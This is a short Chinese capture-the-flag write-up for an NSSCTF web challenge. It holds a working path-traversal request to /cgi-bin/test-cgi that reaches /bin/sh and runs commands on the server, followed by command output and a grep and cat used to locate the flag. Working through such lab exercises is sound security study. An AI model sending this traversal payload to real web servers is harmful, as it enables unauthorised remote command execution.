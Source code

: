 #

[参考1](https://blog.csdn.net/weixin_52116519/article/details/127540169)
[参考2](https://blog.csdn.net/m0_53073183/article/details/135982730)
[题目链接](https://www.nssctf.cn/problem/2485)

## 漏洞发现

通过中间件版本

![alt text](image.png)

```攻击命令 POST
/cgi-bin/test-cgi/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh

echo;ls

bin
boot
dev
etc
flag_is_here
home
lib
lib64
media
mnt
opt
proc
root
run
run.sh
sbin
srv
sys
tmp
usr
var
```

接下来在flag_is_here中搜就行

```bash
echo;grep -r "NSS" /flag_is_here
```

或者

echo;cat /run.sh

回显

```bash
#! /bin/bash

echo $FLAG > /flag_is_here/2/0/7/6/flag
FLAG=no_flag
export FLAG=no_flag

httpd-foreground
```

## 待学习

CVS泄露